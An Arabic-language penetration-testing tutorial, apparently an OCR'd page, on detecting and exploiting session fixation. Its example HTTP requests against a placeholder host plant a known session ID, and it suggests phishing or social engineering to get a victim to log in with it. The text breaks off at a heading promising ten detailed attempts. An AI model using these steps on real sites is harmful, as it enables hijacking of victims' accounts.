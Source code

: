 
# 🛠️ الخطوات العملية لاختبار واستغلال Session Fixation

### ⚙️ مرحلة الاستكشاف: هل التطبيق عرضة لل(Session Fixation)؟

#### 1. **أول طلب: الحصول على جلسة جديدة**
```http
GET /login HTTP/1.1
Host: target.com
```
الخادم يرد:
```http
Set-Cookie: sessionid=abc123; Path=/; HttpOnly
```

#### 2. **تبدأ اختبار الإصلاح (Fixation)**
- تغير الـ `sessionid` إلى قيمة معروفة:
```http
GET /login HTTP/1.1
Host: target.com
Cookie: sessionid=hacker_session
```

#### 3. **تطلب من الضحية أن تسجل دخول باستخدام نفس التوكن**
- إما عن طريق:
  - Social Engineering (رابط به كوكيز محدد)
  - Cross-Site Request (من موقع آخر)
  - Phishing Page تضبط الكوكيز قبل submit البيانات

#### 4. **الضحية تسجل دخول...**
- الخادم لا يولد جلسة جديدة → يستخدم نفس `hacker_session`.

#### 5. **أنت (المُخترق) تفتح الموقع بنفس الجلسة**
```http
GET /dashboard HTTP/1.1
Host: target.com
Cookie: sessionid=hacker_session
```

➡️ إذا كانت لديك **وصول إلى حساب الضحية** → ثغرة موجودة ✅

---

# 🧪 محاولات مختلفة لاختبار Session Fixation
فَهَمْتُك تمام ✅  
فيما يلي شرح **تفصيلي لكل محاولة من المحاولات العشرة** لاختبار واستغلال ثغرة **Session Fixation** في اختبار الإختراق، مع أمثلة وتفاصيل فنية تساعدك كـ pentester على تنفيذها عمليًا.

---

## 🔥 Session Fixation - 10 محاولات تفصيلية

---